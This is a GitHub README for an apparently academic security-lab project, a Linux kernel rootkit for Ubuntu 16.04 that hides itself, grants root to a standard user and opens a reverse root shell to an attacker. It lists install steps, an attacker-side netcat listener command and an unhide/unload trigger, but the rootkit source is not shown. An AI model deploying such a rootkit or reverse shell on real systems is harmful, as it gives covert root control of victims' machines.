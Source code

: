 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: 
  ```bash
  make
  sudo ./install_rootkit.sh
  ```
  
On Attacker side: <br />
 ```bash
 nc -l -p <listen_port> -vvv 
 ```
  
Standard user on target side:<br />
 ```bash
  ./reverse_shell.sh 
 ```
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload？<br />
  ```bash
  echo "unhide" > /proc/CS460/status
  sudo rmmod rootkit
  ```

## Warning!!!<br/>
This project is designed for academic research and study usage only.<br /> 
Don't be evil! Do Not use it against any unauthorised users in the real world! 
